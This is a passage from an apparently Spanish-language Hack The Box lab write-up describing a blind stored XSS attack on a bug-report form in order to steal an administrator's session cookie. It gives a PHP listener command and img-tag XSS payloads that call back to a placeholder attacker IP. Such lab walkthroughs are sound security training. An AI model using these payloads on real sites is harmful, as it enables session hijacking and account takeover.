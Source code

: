 Esto me da a entender algunas cosas:
* Cualquier reporte subido, será revisado por un administrador.
* Si es que existe un **XSS Stored**, podríamos tratar de obtener la cookie del administrador y suplantar su identidad (**Session Hijacking**).

Aunque no vimos que se haya ejecutado el **XSS**, quizá podríamos redirigir la respuesta a un servidor de nosotros (**Blind XSS**).

Levanta un servidor con **PHP**:
```bash
php -S 0.0.0.0:8888
[Fri Oct  3 23:16:11 2025] PHP 8.4.11 Development Server (http://0.0.0.0:8000) started
```

Utiliza la siguiente **XSS** en cada campo:
```bash
# Usalo en el Bug Name
<img src="http://Tu_IP:8888/Summary" onerror=alert(window.origin)>

# Usalo en el Bug Details
<img src="http://Tu_IP:8888/Details" onerror=alert(window.origin)>
```

<p align="center">
<img src="/assets/images/htb-writeup-imagery/Captura15.png">
</p>
